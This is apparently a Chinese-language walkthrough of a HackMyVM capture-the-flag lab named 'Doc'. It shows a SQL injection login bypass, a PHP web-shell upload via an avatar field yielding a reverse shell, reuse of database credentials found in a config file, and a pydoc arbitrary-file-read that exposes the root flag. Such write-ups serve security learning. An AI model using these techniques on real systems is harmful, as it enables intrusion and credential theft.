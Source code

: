 # Doc

2024-11-22 https://hackmyvm.eu/machines/machine.php?vm=Doc

## IP

192.168.5.39

## Scan

```
PORT   STATE SERVICE
80/tcp open  http
```

访问 80 端口 web 服务，发现需要设置域名 http://doc.hmv/ 在/etc/host 中添加。

使用 gobuster 扫描下目录：

```
http://doc.hmv/admin/login.php
```

尝试登陆，发现错误提示：

```
{"status":"incorrect","last_qry":"SELECT * from users where username = 'admin' and password = md5('1234567') "}
```

这里可能存在 sql 注入，尝试输入用户名为：`admin' or 1=1 -- -` 登陆进入了系统中，看到 url 中的访问链接为`http://doc.hmv/admin/?page=system_info` 这里可能存在文件包含漏洞，经过测试不存在文件包含漏洞。

寻找其他突破口，发现在用户编辑窗口中，存在图片文件上传功能，尝试修改用户头像，上传 php web shell 上传成功，并且能触发得到反弹的 web shell：

```
用户信息编辑链接：
http://doc.hmv/admin/?page=user/manage_user&id=9

上传的用户头像url地址：
http://doc.hmv/uploads/1732260000_8888.php

www-data@doc:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

发现数据库配置信息：

```
if(!defined('DB_USERNAME')) define('DB_USERNAME',"bella");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"be114yTU");
```

/home 发现用户 bella 其中有 user flag 文件，但是没有读取权限。尝试使用 be114yTU 密码切换到 bella 用户，切换成功，获取到了 user flag：

```
bella@doc:~$ cat user.txt
HMVtakemydocs
```

sudo -l 发现：

```
(ALL : ALL) NOPASSWD: /usr/bin/doc
```

网上没找到直接这个程序的漏洞利用，只好自己分析：

```
strings /usr/bin/doc

/usr/bin/pydoc3.9 -p 7890
```

发现 pydoc3.9 以 7890 端口启动，这个版本存在漏洞，可以实现任意文件访问。启动另一个终端，在终端中访问下面链接，就能获得 root flag(同理 也能获得 root 用户的 ssh 登陆密钥)：

```
curl http://localhost:7890/getfile?key=/root/root.txt

<td width="100%"><pre>HMVfinallyroot
</pre></td></tr></table></div>
```

如果想获得 root 的 shell，发现本地 127.0.0.1 开放了 21 端口，是一个 ssh 端口，但是外界访问不了，需要使用端口转发工具，这里就不做演示了。
